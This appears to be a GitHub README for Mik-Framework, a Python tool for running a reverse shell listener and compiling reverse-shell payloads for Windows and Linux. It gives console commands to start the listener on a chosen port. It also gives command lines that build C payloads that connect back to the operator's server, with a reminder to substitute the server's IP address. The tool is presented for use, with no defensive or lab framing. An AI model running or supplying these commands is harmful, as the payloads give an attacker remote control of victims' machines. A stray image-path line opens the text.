 # Mik-Framework

Mik-Framework is a Python tool for starting a reverse shell server and compiling payloads for Windows and Linux.

## Usage

To start the reverse shell server, run the following command:

```~/Mik-Framework $ python3 mikconsole.py```

This will open the Mik-Framework console, where you can interact with the available modules. To start the reverse shell server, follow these steps:

1. Select the revshell module:
   ```mik> use revshell```

2.  Configure the host and port:
   ```mik-revshell> set host 0.0.0.0
   mik-revshell> set port 4545```

4. Run the server:
   ```mik-revshell> run```

## Payload Compilation

### Windows

To compile a payload for Windows, use the following command:

```python3 nous.py -p windows_revshell --host 127.0.0.1 --port 4545 -o payload.c --mingw```

### Linux

To compile a payload for Linux, use the following command:

```python3 nous.py -p linux_revshell --host 127.0.0.1 --port 4545 -o payload.c```

Make sure to replace 127.0.0.1 with the IP address of your server and 4545 with the port you want to use.

## Creating New Modules

You can create new modules to extend the functionality of Mik-Framework. Simply follow the existing module structure and integrate it into the framework.
